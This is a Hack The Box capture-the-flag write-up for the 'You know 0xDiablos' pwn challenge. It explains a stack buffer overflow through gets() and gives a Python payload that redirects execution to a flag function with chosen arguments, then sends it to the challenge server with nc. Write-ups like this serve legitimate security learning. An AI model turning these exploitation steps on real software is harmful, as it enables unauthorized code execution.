


# [You know 0xDiablos](https://app.hackthebox.com/challenges/You%2520know%25200xDiablos) Writeup [HTB]
_Pwn_

## Analyzing the executable
The challenge provides a `vuln` executable file, not stripped. 

First, I try to run it. The program looks pretty simple: it reads a string from standard input, and then prints it back. This smells like stack buffer overflow...

I proceed to decompile it with Ghidra, and find 3 functions: `main`, `vuln` and `flag`.

```c
/* main function (simplified) */
int main(void) {
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}

/* vuln function */
void vuln(void) {
  char local_bc [180];
  gets(local_bc);
  puts(local_bc);
  return;
}

/* flag function (!!) */
void flag(int param_1,int param_2) {
  char flag_str [64];
  FILE *fp;
  
  fp = fopen("flag.txt","r");
  if (fp != NULL) {
    fgets(flag_str,64,fp);
    if ((param_1 == L'\xdeadbeef') && (param_2 == L'\xc0ded00d')) {
      printf(flag_str);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
  exit(0);
}
```
Overall, the `vuln` function is the one responsible for reading the stdin message and printing it back. The `flag` function is the one I want to execute, but it doesn't appear anywhere in the control flow. This is where the stack buffer overflow comes in!

## Stack buffer overflow basics
Whenever a function is called, the instruction pointer value is pushed in the stack. This is known as the function's _return address_. Later on, when the function hits the `return` instruction, the address is popped out of the stack and used to set the instruction pointer value, to correctly resume the program's control flow.

The aim of a stack buffer overflow exploit is to rewrite the return address that is lying around in the stack. This way, I can force the program to execute whichever instruction I want! 

In this case, I want to set it to the entry point of `flag`. Needless to say, this requires _knowing_ the entry point of `flag`.
This is where my dearest `gdb` comes in action!

```sh
gef➤  info address flag
Symbol "flag" is at 0x80491e2 in a file compiled without debugging.
```

The second component I need for this attack is, well, a buffer we can overflow. This is pretty easy to spot. 
The `vuln` function allocates 180 bytes for the input message. However, it uses the `gets` function to read it, which doesn't make any kind of size check. As a consequence, I can input more than 180 characters and overflow the buffer.

Now it's time to study the stack and craft a payload!

## Getting to `flag`
When `gets` is called, the stack looks like this:



In order to overwrite the return address field, I first need to compute how much space is occupied by local variables and saved registers.
There is only one local variable, which is our buffer, and it's 180 B. As far as the registers are concerned, I can check them with `geff`:
```sh
gef➤  info frame
[...]
Saved registers:
  ebp at 0xffffcf68, eip at 0xffffcf6c
```
Since each register is 4 B, the total space before the return address is 188 B. After 188 B, I can write the `flag` address, without forgetting that the machine uses the Little Endian architecture. The buffer content will be the following:
```py
payload = (
    b'A' * 180 +
    b'REG1' +
    b'REG2' +
    b'\xe2\x91\x04\x08'
)
```
When inputting this payload to the program, I actually reach the `flag` function!

## Breaking the "if"
Executing `flag` is not enough to print the flag on screen. Let's recall the decompiled code:
```c
void flag(int param_1,int param_2) {
  /* [...] */
  if ((param_1 == L'\xdeadbeef') && (param_2 == L'\xc0ded00d')) {
    printf(flag_str);
  }
  /* [...] */
}
```
In order to get to the flag, I need to pass some specific parameters to the function!

Whenever a function is called, its parameters are passed, yet again, through the stack. Specifically, when a function is called, the stack content is interpreted as follows:



This means we can set `param_1` and `param_2` to the correct values by simply adding them to our payload, taking care to leave 4 B for the return address.

```py
payload = (
    b'A' * 180 +
    b'REG1' +
    b'REG2' +
    b'\xe2\x91\x04\x08' +
    b'ADDR' +
    b'\xef\xbe\xad\xde' +
    b'\x0d\xd0\xde\xc0'
)
with open('payload.bin', 'wb') as f:
    f.write(payload)
```

Now that the payload is ready, we can use it to get the flag!
```sh
$ cat payload.bin | nc 94.237.49.219 51815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAREG1REG2ADDRﾭ�
HTB{XXX}
```

## Read more!
[➡️ Next challenge: PDFy](./pdfy.md)